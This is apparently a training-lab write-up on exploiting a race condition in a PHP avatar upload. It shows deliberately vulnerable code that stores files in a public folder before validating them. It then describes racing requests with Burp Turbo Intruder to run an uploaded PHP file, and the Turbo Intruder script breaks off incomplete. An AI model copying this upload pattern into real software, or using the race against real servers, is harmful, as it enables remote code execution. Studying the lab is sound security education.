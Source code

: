```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

<br>
## Solutions
* * *
<br>
### Solution 1: My Solution
The main logic for me to solve this lab was to upload a suitable sized file(not small not that large) then because of this vulnerable code exposed in hint section, I knew that my PHP file would be on the server for a fraction of a second then the virus and extension check would be done on it then because it is a PHP file and not a JPG or PNG, it would be deleted, so I could use race condition to read the PHP file in a few milliseconds that the file exists on the server before deletion so: I used Burp Turbo Intruder[^2] for solving this lab to be able to send GET requests to read the PHP file as fast as I can. A simple code is used in Turbo Intruder for solving this lab:

```py
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,

                           concurrentConnections=80,

                           requestsPerConnection=1,

                           pipeline=False

                           )

    i = 0

    while i < 10000:

```

[^1]: Icon made by [Freepik](https://www.flaticon.com/authors/freepik){: rel="nofollow"} from [www.flaticon.com](https://www.flaticon.com/){: rel="nofollow"}
[^2]: [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988)